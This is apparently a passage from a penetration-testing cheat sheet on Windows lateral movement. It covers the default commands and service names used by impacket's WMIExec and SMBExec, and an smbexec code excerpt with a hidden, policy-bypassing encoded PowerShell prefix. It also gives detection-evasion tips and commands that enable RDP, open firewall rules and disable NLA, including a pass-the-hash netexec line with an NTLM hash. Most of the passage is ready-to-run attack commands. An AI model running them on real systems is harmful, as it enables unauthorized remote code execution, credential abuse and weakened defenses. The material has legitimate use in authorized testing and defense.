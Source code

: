 Alternatively you can use the fork [ThePorgs/impacket](https://github.com/ThePorgs/impacket/pull/3/files).

### WMIExec

Use a non default share `-share SHARE` to write the output to reduce the detection.
By default this command is executed : `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__RANDOM 2>&1`

### SMBExec

It creates a service with the name `BTOBTO` ([smbexec.py#L59](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L59)) and transfers commands from the attacker in a bat file in `%TEMP/execute.bat` ([smbexec.py#L56](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L56)).

```py
OUTPUT_FILENAME = '__output'
BATCH_FILENAME  = 'execute.bat'
SMBSERVER_DIR   = '__tmp'
DUMMY_SHARE     = 'TMP'
SERVICE_NAME    = 'BTOBTO'
```

It will create a new service every time we execute a command. It will also generate an Event 7045.

By default this command is executed: `%COMSPEC% /Q /c echo dir > \\127.0.0.1\C$\__output 2>&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat`, where `%COMSPEC%` points to `C:\WINDOWS\system32\cmd.exe`.

```py
class RemoteShell(cmd.Cmd):
    def __init__(self, share, rpc, mode, serviceName, shell_type):
        cmd.Cmd.__init__(self)
        self.__share = share
        self.__mode = mode
        self.__output = '\\\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
        self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
        self.__outputBuffer = b''
        self.__command = ''
        self.__shell = '%COMSPEC% /Q /c '
        self.__shell_type = shell_type
        self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
        self.__serviceName = serviceName
```

## RDP Remote Desktop Protocol

:warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ netexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

```
